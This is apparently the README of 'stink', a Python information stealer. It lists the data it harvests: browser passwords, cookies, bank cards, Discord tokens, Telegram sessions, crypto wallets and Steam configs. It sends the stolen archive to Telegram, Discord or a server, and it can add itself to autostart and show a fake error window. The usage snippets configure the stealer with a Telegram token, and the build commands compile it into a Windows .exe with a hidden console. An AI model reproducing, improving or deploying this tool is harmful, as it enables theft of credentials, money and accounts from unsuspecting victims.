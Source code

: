 # stink

Stealer in just a few lines with sending to Telegram / Server / Discord. No dependencies, only built-in libraries.

**Wiki:** https://github.com/FallenAstaroth/stink/wiki

## Description
The `stink` already has an impressive functionality that will only expand.

## Navigation
* [Current features](#Сurrent-features)
* [Example usage](#Example-usage)
  * [Standard](#Standard)
  * [Certain modules](#Certain-modules)
  * [Additional parameters](#Additional-parameters)
* [Creating exe](#Creating-exe)
  * [Creating executable file](#Creating-executable-file)
  * [With BAT](#With-BAT)
  * [With CMD](#With-CMD)

### Current features
1. Support for the following browsers:
   - Chrome
   - Opera
   - Opera GX
   - Edge
   - Brave
   - Vivaldi
2. Collecting the following data:
   - Screenshot
   - Cookies
   - Passwords
   - Bank cards
   - History
   - Bookmarks
   - IP-address
   - System configuration
   - Active processes
   - Discord tokens
   - Telegram sessions
   - FileZilla hosts
   - Crypto wallets:
       - Metamask
       - Phantom
   - Steam configs
3. Support for browser multiprofiles.
4. Sending an archive of collected data to Telegram / Server / Discord.
5. Execution in a separate thread.
6. Execution using multiprocessor.
7. Possibility to add to autostart.
8. Showing a window with a fake error.

## Example usage
### Standard
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Certain modules

An example with only system data collection and screenshot.
```python
from stink import Stealer
from stink.enums import Features, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)], features=[Features.system, Features.screenshot]).run()
```
### Additional parameters

- `features` - enables modules from the list. Modules can be imported from `stink.enums.Features`. Available modules:

  - `passwords` - collecting passwords.

  - `cookies` - collecting cookies.

  - `cards` - collecting bank cards.

  - `history` - collecting search history.

  - `bookmarks` - collecting bookmarks.

  - `extensions` - collecting browser extensions.

  - `processes` - collecting active processes.

  - `system` - collecting system configuration.

  - `screen` - screenshot.

  - `discord` - collecting Discord tokens.

  - `telegram` - collecting Telegram sessions.

  - `filezilla` - collecting FileZilla hosts.

  - `wallets` - collecting crypto wallets.

  - `steam` - collecting Steam configs.


- `utils` - enables the utilities from the list. Utilities can be imported from `stink.enums.Utils`. Available utilities:

  - `autostart` - adding to autostart.

  - `message` - showing a fake error window.


- `senders` - launches sending methods from the list. Sending methods can be imported from `stink.enums.Senders`. Available sending methods:

  - `server` - sending to server.

  - `telegram` - sending to Telegram.

  - `discord` - sending to Discord.
  
## Creating exe
Python is an interpreted programming language, so we first translate it into C and then compile it into an .exe file.
We will need Nuitka to do this.

### Creating executable file

1. [Download](https://github.com/FallenAstaroth/stink/archive/refs/heads/master.zip) archive.
2. Unpack the archive and go to the directory stink-master.
3. Create test.py (or any other name) file in the same directory with the following code:
```python
from stink import Stealer
from stink.enums import Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```

#### With BAT
1. Run compiler.bat.


#### With CMD
1. Open `cmd`.
2. Type in the command:
```
pip install virtualenv
```
3. Go to the folder with the `test.py` file:
```
cd path\to\file
```
4. Create a virtual environment and activate it:
```
virtualenv venv
```
```
venv\Scripts\activate
```
5. Install the Nuitka:
```
pip install Nuitka==0.6.16.4
```
6. To reduce the file size, additionally install Zstandard (optional):
```
pip install zstandard==0.17.0
```
7. Write the command:
```
nuitka --onefile --plugin-enable=multiprocessing --windows-disable-console test.py
```

After executing the command we get the test.exe file with the hidden console.
